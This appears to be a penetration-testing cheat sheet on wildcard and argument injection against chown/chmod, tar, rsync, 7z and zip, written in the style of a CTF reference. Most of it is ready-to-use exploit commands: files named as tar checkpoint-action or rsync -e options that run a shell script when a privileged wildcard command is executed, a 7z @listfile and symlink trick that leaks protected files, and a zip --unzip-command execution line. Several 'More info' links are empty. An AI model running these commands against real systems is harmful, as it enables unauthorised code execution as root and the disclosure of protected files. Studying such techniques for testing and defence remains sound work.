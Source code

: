 ### chown, chmod

You can indicate which file owner and permissions you want to copy for the rest of the files

```
touch "--reference=/my/own/path/filename"
```

You can exploit this using  (combined attack)
More info in 

### Tar

Execute arbitrary commands:

```
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"
```

You can exploit this using  (tar attack)
More info in 

### Rsync

Execute arbitrary commands:

```
Interesting rsync option from manual:

 -e, --rsh=COMMAND           specify the remote shell to use
     --rsync-path=PROGRAM    specify the rsync to run on remote machine
```

```
touch "-e sh shell.sh"
```

You can exploit this using  _(_rsync attack)
More info in 

### 7z

In 7z even using `--` before `*` (note that `--` means that the following input cannot treated as parameters, so just file paths in this case) you can cause an arbitrary error to read a file, so if a command like the following one is being executed by root:

```
7za a /backup/$filename.zip -t7z -snl -p$pass -- *
```

And you can create files in the folder were this is being executed, you could create the file `@root.txt` and the file `root.txt` being a symlink to the file you want to read:

```
cd /path/to/7z/acting/folder
touch @root.txt
ln -s /file/you/want/to/read root.txt
```

Then, when 7z is execute, it will treat `root.txt` as a file containing the list of files it should compress (thats what the existence of `@root.txt` indicates) and when it 7z read `root.txt` it will read `/file/you/want/to/read` and as the content of this file isn't a list of files, it will throw and error showing the content.

More info in Write-ups of the box CTF from HackTheBox.

### Zip

Execute arbitrary commands:

```
zip name.zip files -T --unzip-command "sh -c whoami"
```